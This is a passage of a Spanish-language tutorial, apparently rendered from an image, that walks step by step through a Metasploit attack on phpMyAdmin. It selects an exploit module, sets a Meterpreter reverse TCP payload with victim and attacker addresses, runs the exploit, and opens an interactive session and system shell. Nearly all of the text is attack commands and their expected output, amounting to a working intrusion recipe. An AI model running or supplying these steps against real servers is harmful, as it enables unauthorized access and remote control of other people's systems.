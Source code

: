 ```bash
use exploit/unix/webapp/phpmyadmin/pmakey_exec
```

---

#### Paso 3: Seleccionar un payload

```bash
set PAYLOAD php/meterpreter/reverse_tcp
```

---

#### Paso 4: Configurar opciones

```bash
set RHOST 192.168.1.101       # IP de la víctima
set LHOST 192.168.1.100       # Tu IP atacante
set LPORT 4444                # Puerto para recibir conexión
```

---

#### Paso 5: Ejecutar el exploit

```bash
exploit
```

Si tiene éxito, verás:

```
[*] Sending exploit...
[*] Meterpreter session 1 opened
```

---

#### Paso 6: Usar el payload (meterpreter)

```bash
sessions
sessions -i 1
```

Dentro de la sesión puedes:

```bash
sysinfo            # Ver información del sistema
getuid             # Ver quién eres
shell              # Obtener una shell real
```

---

#### Paso 7: Limpieza y salida

```bash
exit
```

---